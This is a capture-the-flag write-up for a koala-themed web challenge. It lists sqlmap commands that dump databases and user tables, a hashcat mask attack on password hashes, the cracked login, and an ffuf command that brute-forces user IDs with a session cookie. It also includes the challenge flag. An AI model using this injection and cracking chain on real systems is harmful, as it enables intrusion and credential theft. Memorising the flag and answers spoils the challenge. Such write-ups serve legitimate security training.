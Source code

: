# Flag

> Hacking-Arena{Oh_don't_you_please_take_me_home}

# Prompt

> I need to login to look after what my koala bears are doing. I forgot the password, holy cow(la)!

[http://koala.hackingarena.no:802](http://koala.hackingarena.no:802/) [http://koala.hackingarena.com:802](http://koala.hackingarena.com:802/) (same site)

I think you can get it as well as the flag. Need a little patience, cracking might take 20 minutes (if you know what to crack :) )

# Solution

Utilize SQLMAP to exploit the HTTP Get form and retrieve databases

GET http://koala.hackingarena.com:802/index.php?song=Banana boat song

Command:
sqlmap -u "http://koala.hackingarena.com:802/index.php" --forms -dbs

![[Pasted image 20241115183959.png]]

Next exploit is for retrieving tables from database 'user' using command:
sqlmap -u "http://koala.hackingarena.com:802/index.php" --forms -D user --tables  

![[Pasted image 20241115184128.png]]

Lastly for sqlmap, output content from table users to retrieve password and usernames.

![[Pasted image 20241115184226.png]]

From here on, go back to the website and inspect the source code for the instructions to creating passwords. Use the structure and crack the hash(es) using hash-cat with following structure:

Lowercase - ?l
Uppercase - ?u
Digits - ?d
Minimum length of 6 - --increment-min 6 & -i ?1?1?1?1?1?1?1?1?1?1?1?1 (6-12 length)

![[Pasted image 20241115184444.png]]

Next step is to log into the website with login information:
Name=yellowfish
Password=32uSOp

![[Pasted image 20241115184734.png]]

Use burp suite to find the cookieId and use ffuf to bruteforce userIds from 1 to 10000 (filter out size = 29):

ffuf -u http://koala.hackingarena.no:802/profile.php?userid=FUZZ -H "Cookie: CalypId=AAABBBCCCDDD1731694671" -w "/home/kali/Desktop/userid.txt" -fs 29

# Additional Info

Additional solution / info